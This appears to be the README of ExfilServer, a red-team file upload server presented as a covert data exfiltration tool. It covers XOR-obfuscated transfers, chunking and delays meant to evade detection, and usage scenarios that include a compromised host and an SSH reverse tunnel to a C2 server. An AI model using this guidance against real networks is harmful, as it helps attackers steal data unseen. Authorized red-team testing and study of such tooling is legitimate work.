


<div align="center">
  
</div>

# ExfilServer
Client-side Encrypted Upload Server Python Script

## Overview

ExfilServer is a secure file upload server that provides client-side encryption and automatic upload functionality. It features a modern web interface with drag-and-drop support, real-time file status indicators, and XOR-based encryption for file obfuscation during transmission.

<div align="center">
  
  <br>
  <em>ExfilServer Web Interface - Drag & Drop File Upload with Encryption and Secure Download with Encrypted Filenames</em>
</div>

## ⚠️ Disclaimer

**EDUCATIONAL PURPOSE ONLY**: This software is provided for educational, research, and authorized security testing purposes only. The author does not condone or encourage the use of this software for any illegal or malicious activities.

**WEAK ENCRYPTION WARNING**: The XOR encryption used in this tool is NOT cryptographically secure and can be easily broken. Do NOT use this for protecting sensitive or confidential data. It is designed for obfuscation and educational demonstration only.

**NO LIABILITY**: The author accepts no responsibility or liability for any damages, losses, or legal consequences that may arise from the use or misuse of this software. Users are solely responsible for ensuring their use complies with all applicable laws and regulations.

**AUTHORIZED USE ONLY**: This tool should only be used on systems and networks that you own or have explicit written permission to test. Unauthorized access to computer systems is illegal in most jurisdictions.

**USE AT YOUR OWN RISK**: By using this software, you acknowledge that you understand the risks involved and agree to use it responsibly and ethically.

## Features

### Security
- **Client-side Encryption**: Files are encrypted in the browser before transmission
- **Server-side Decryption**: Automatic decryption using server-specified keys
- **Key-based Access Control**: Only files encrypted with matching keys are processed
- **XOR Encryption**: Fast, lightweight encryption for file obfuscation

### User Experience
- **Drag & Drop Interface**: Automatic upload when files are dropped
- **Real-time Status**: Visual indicators for encryption, upload, and completion states
- **Multiple File Support**: Upload multiple files simultaneously
- **Modern UI**: Clean, responsive design with visual feedback
- **Password Protection**: User-specified encryption keys for enhanced security

### Technical Features
- **Command-line Configuration**: Server key and port specification via arguments
- **Automatic File Processing**: Seamless encryption → upload → decryption workflow
- **Error Handling**: Comprehensive error reporting and validation
- **Cross-platform**: Works on any system with Python 3

### Download & File Management
- **Encrypted File Listing**: Server provides encrypted filenames for enhanced privacy
- **Secure Downloads**: Files are re-encrypted server-side before transmission
- **Client-side Decryption**: Downloaded files are decrypted in the browser using user-specified keys
- **Real-time Filename Decryption**: Filenames decrypt automatically when correct key is entered
- **Bidirectional Encryption**: Both upload and download processes use encryption
- **Manual File Deletion**: Users must manually delete files from the server's uploads folder

## Stealth Features

### File Chunking
- **Configurable Chunking**: Split files into 1-1000 chunks for covert transfer
- **Automatic Reassembly**: Server automatically reconstructs files from received chunks
- **Traffic Obfuscation**: Large files appear as multiple small transfers
- **Evasion Capability**: Bypass file size restrictions and detection systems

### Chunk Upload Delays
- **Configurable Delays**: Set delays between chunk uploads (0-10,000ms)
- **Traffic Shaping**: Control upload rate to avoid network anomaly detection
- **Stealth Timing**: Mimic normal user behavior with realistic upload patterns
- **Load Distribution**: Spread transfers over time to reduce server load spikes

### Operational Benefits
- **Detection Avoidance**: Chunked transfers with delays appear as normal web traffic
- **Network Resilience**: Failed chunks can be retransmitted without restarting entire upload
- **Bandwidth Management**: Control network utilization to maintain operational security
- **Covert Channels**: Establish low-profile data exfiltration channels

## Installation

1. Clone the repository:
```bash
git clone https://github.com/vysecurity/ExfilServer.git
cd ExfilServer
```

2. No additional dependencies required - uses only Python standard library

## Usage

### Starting the Server

```bash
# Basic usage with required server key
python3 upload_server.py --key "YourServerKey123"

# Custom port and key
python3 upload_server.py --key "SecureKey456" --port 9000
```

### Command Line Arguments

- `--key` (required): Server decryption key for processing uploaded files
- `--port` (optional): Port to run the server on (default: 8000)

### Web Interface

#### File Upload
1. Open your browser and navigate to `http://localhost:8000`
2. Enter an encryption key in the password field
3. **Configure stealth options** (optional):
   - Set "Number of Chunks" (1-1000) to split files for covert transfer
   - Set "Delay Between Chunks" (0-10,000ms) to control upload timing
4. Either:
   - Click "Select files" to choose files manually, then click "Upload"
   - Drag and drop files directly into the drop area for automatic upload

#### File Download
1. Navigate to the **Download Files** section on the same web interface
2. Enter a decryption key in the "Decryption Key" field
3. Click "Refresh File List" to load available files
4. **Filename Display**:
   - Without key: Files show as `[Encrypted: abc123def456...]`
   - With correct key: Files show actual names like `document.pdf`
   - With wrong key: Files remain encrypted, indicating incorrect key
5. Click "Download" next to any file to download and decrypt it
6. Files are automatically decrypted in the browser and saved with original names

#### File Management
- **File Deletion**: To remove files from the server, manually delete them from the `uploads/` folder on the server filesystem
- **No Web-based Deletion**: The web interface does not provide file deletion capabilities for security reasons
- **Server Access Required**: File cleanup must be performed by someone with direct server access

### File Processing Flow

#### Upload Process
1. **Client**: User enters encryption key and selects/drops files
2. **Chunking**: Files are optionally split into specified number of chunks
3. **Encryption**: Files/chunks are encrypted in the browser using XOR cipher
4. **Upload**: Encrypted files/chunks are transmitted with optional delays
5. **Reassembly**: Server automatically reconstructs chunked files
6. **Decryption**: Server decrypts files using the specified server key
7. **Storage**: Decrypted files are saved with original filenames

#### Download Process
1. **File Listing**: Client requests file list via `/files` endpoint
2. **Filename Encryption**: Server encrypts all filenames before sending to client
3. **Client Display**: Browser shows encrypted filenames or decrypts them if key is provided
4. **Download Request**: Client requests specific file via `/download/<encrypted_filename>`
5. **Server Encryption**: Server encrypts file contents before transmission
6. **Client Decryption**: Browser decrypts both filename and file contents
7. **File Save**: Decrypted file is saved with original filename

### Data Flow Diagram

<div align="center">
  
  <br>
  <em>Data flow diagram showing upload process with encryption workflow</em>
</div>

## Security Model

### Encryption Process
- **Client-side**: User-specified key encrypts files before transmission
- **Server-side**: Administrator-specified key decrypts received files
- **Key Matching**: Files are only successfully processed when encryption/decryption keys match
- **Transport Security**: Files are obfuscated during network transmission

### Access Control
- Users must know the correct encryption key to successfully upload files
- Server administrator controls the decryption key via command line
- Failed decryption attempts are logged and rejected

## File Status Indicators

- **Ready**: File selected and ready for upload
- **Encrypting**: File is being encrypted in the browser
- **Uploading**: Encrypted file is being transmitted
- **Uploaded**: File successfully processed and saved
- **Error**: Upload or decryption failed

## Example Scenarios

### Secure File Collection
```bash
# Start server with collection key
python3 upload_server.py --key "CollectionKey2024"
```
Users must enter "CollectionKey2024" in the web interface to upload files.

### Multi-user Environment
```bash
# Different keys for different purposes
python3 upload_server.py --key "ProjectAlpha" --port 8001
python3 upload_server.py --key "ProjectBeta" --port 8002
```

## Data Exfiltration Use Cases

### 1. Data Exfiltration over Local Wi-Fi Subnet
```bash
# Start server on local network interface
python3 upload_server.py --key "WiFiExfil2024" --port 8000

# Access from any device on the same Wi-Fi network
# Navigate to: http://[SERVER_IP]:8000
# Example: http://192.168.1.100:8000
```
**Scenario**: Internal network data collection where the server runs on a compromised machine within the local subnet. Clients on the same Wi-Fi network can upload files using the shared encryption key.

### 2. Data Exfiltration over Internet
```bash
# Start server with port forwarding or public IP
python3 upload_server.py --key "RemoteExfil2024" --port 443

# Configure firewall/router for external access
# Access from anywhere: https://[PUBLIC_IP]:443
```
**Scenario**: Remote data exfiltration where the server is exposed to the internet. Requires proper network configuration (port forwarding, firewall rules) and ideally HTTPS for transport security. Useful for collecting data from remote locations.

### 3. Reverse Port Forward over C2 Channel
```bash
# On compromised target (reverse tunnel)
ssh -R 8000:localhost:8000 user@c2-server.com

# On C2 server, start ExfilServer
python3 upload_server.py --key "C2Exfil2024" --port 8000

# Access via C2 server: http://c2-server.com:8000
```
**Scenario**: Covert data exfiltration through an established C2 (Command & Control) channel. The reverse port forward creates a secure tunnel from the target network to the C2 infrastructure, allowing data collection without direct internet exposure of the target machine.

## Technical Details

### Encryption Algorithm
- **Method**: XOR cipher with key repetition
- **Performance**: Fast encryption/decryption suitable for large files
- **Purpose**: Primarily for obfuscation, not cryptographic security
- **Vulnerability**: Can be brute forced using known file type headers (e.g., PNG, PDF, JPEG magic bytes)
- **Security Level**: Provides basic obfuscation against casual inspection only

### File Handling
- **Original Names**: Preserved through separate form fields
- **Binary Support**: Handles all file types (images, documents, executables)
- **Size Limits**: Constrained only by available memory and disk space
- **Filename Encryption**: Filenames encrypted using XOR with hex encoding for safe transmission
- **Bidirectional Processing**: Both upload and download paths include encryption/decryption

### API Endpoints
- **`GET /`**: Main web interface with upload and download functionality
- **`GET /files`**: Returns JSON list of uploaded files with encrypted filenames
- **`GET /download/<encrypted_filename>`**: Downloads specific file with server-side encryption
- **`POST /`**: Handles file uploads with multipart form data and chunking support

### Browser Compatibility
- **Modern Browsers**: Chrome, Firefox, Safari, Edge
- **JavaScript Required**: For encryption and drag-and-drop functionality
- **File API**: Uses modern browser file handling capabilities

## Security Considerations

### Encryption Limitations
- **XOR Weakness**: The XOR encryption can be easily broken by analyzing file headers
- **Known Plaintext Attack**: Common file formats (PNG, PDF, DOCX) have predictable headers that can reveal the encryption key
- **Not Cryptographically Secure**: This encryption should never be relied upon for protecting sensitive data
- **Obfuscation Only**: Use only for basic traffic obfuscation, not data protection

### Production Deployment
- **MANDATORY**: Use HTTPS for transport encryption in production environments
- **CRITICAL**: Implement stronger encryption algorithms (AES, ChaCha20) for sensitive data
- Add authentication and authorization mechanisms
- Monitor and log access attempts
- Consider this tool as a proof-of-concept for educational purposes only

### Key Management
- Use strong, unique keys for different deployments
- Rotate keys regularly
- Avoid hardcoding keys in scripts or configuration files
- Consider key derivation functions for enhanced security

## Troubleshooting

### Common Issues

**Server won't start**
- Ensure the `--key` parameter is provided
- Check if the port is already in use
- Verify Python 3 is installed

**Upload fails**
- Verify encryption key is entered in the web interface
- Check server logs for decryption errors
- Ensure sufficient disk space in uploads directory

**Files not decrypting**
- Confirm client and server keys match
- Check for special characters in keys
- Verify file wasn't corrupted during upload

## Changelog

### Version 2.0.0 - Security Hardening Release (2025-01-XX)

#### 🛡️ **CRITICAL SECURITY FIXES**

**Local File Inclusion (LFI) Vulnerabilities Resolved**
- **Fixed Path Traversal in Upload Process**: Implemented comprehensive filename sanitization to prevent directory traversal attacks using `../` and `..\` sequences
- **Fixed Path Traversal in Chunk Operations**: Added path validation for chunk file operations to prevent arbitrary file writes outside designated directories
- **Fixed Arbitrary File Write Vulnerability**: All file operations now validate that paths remain within intended directories (`UPLOAD_DIR` and `CHUNK_DIR`)

#### 🔒 **New Security Features**

**Filename Sanitization**
- Added `sanitize_filename()` function with comprehensive validation
- Removes dangerous path traversal sequences and special characters
- Protects against Windows reserved filenames (CON, PRN, AUX, etc.)
- Enforces filename length limits (255 characters maximum)
- Prevents empty or malicious filenames

**File Extension Validation**
- Added `validate_file_extension()` function with whitelist approach
- Allowed extensions: `.txt`, `.pdf`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.ppt`, `.pptx`, `.jpg`, `.jpeg`, `.png`, `.gif`, `.bmp`, `.zip`, `.rar`, `.7z`, `.tar`, `.gz`, `.mp3`, `.mp4`, `.avi`, `.mov`, `.wmv`
- Prevents execution of potentially malicious file types
- Case-insensitive validation

**Input Validation & Resource Protection**
- Added `validate_chunk_params()` function for chunk parameter validation
- Implemented file size limits (100MB maximum per file)
- Added chunk count limits (maximum 10,000 chunks per file)
- Enhanced error handling for malformed requests

**Security Monitoring & Logging**
- Added `log_security_event()` function for comprehensive security logging
- Logs all security violations with timestamps and client IP addresses
- Creates `security.log` file for monitoring and incident response
- Tracks path traversal attempts, invalid filenames, and other security events

**Path Validation**
- Implemented absolute path checking using `os.path.abspath()`
- Validates all file operations stay within designated directories
- Prevents bypass attempts through symbolic links or relative paths
- Added directory containment verification

#### 📊 **Security Improvements Summary**

| **Security Control** | **Implementation** | **Protection Against** |
|---------------------|-------------------|------------------------|
| **Filename Sanitization** | `sanitize_filename()` | Path traversal, injection attacks |
| **Path Validation** | Absolute path checking | Directory escape, arbitrary writes |
| **File Extension Filtering** | Whitelist validation | Malicious file execution |
| **Resource Limits** | Size & chunk limits | Resource exhaustion attacks |
| **Security Logging** | Event tracking | Incident detection & response |
| **Input Validation** | Parameter checking | Malformed request attacks |

#### 🚨 **Vulnerability Risk Assessment**

**Before Security Fixes:**
- **CRITICAL**: Path traversal allowing arbitrary file writes
- **CRITICAL**: Local File Inclusion via malicious filenames
- **HIGH**: Resource exhaustion via oversized files
- **HIGH**: Filename injection attacks

**After Security Fixes:**
- **LOW**: Residual risks mitigated through comprehensive validation
- **MONITORED**: All security events logged for detection
- **PROTECTED**: Multi-layer defense against file-based attacks

#### 🔧 **Technical Changes**

**Code Additions:**
- **177 new lines** of security-focused code
- **4 new security functions** for validation and logging
- **Multiple validation checkpoints** throughout upload process
- **Comprehensive error handling** with security logging

**Modified Functions:**
- `reassemble_chunks()`: Added filename sanitization and path validation
- `do_POST()`: Integrated all security checks and validation
- Enhanced error responses with security event logging

#### 📋 **Security Recommendations**

**For Production Use:**
1. **MANDATORY**: Implement HTTPS for transport encryption
2. **CRITICAL**: Replace XOR encryption with AES or ChaCha20
3. **REQUIRED**: Add authentication and authorization mechanisms
4. **RECOMMENDED**: Implement rate limiting and request throttling
5. **ADVISED**: Regular security audits and penetration testing

**Monitoring & Maintenance:**
- Monitor `security.log` for suspicious activities
- Regularly review uploaded files for anomalies
- Keep security configurations updated
- Implement automated security scanning

---

## Contributing

Contributions are welcome! Please feel free to submit pull requests or open issues for bugs and feature requests.

## License

This project is open source. Please check the repository for license details.

## Author

Developed by @vysecurity for secure file collection and transfer scenarios.
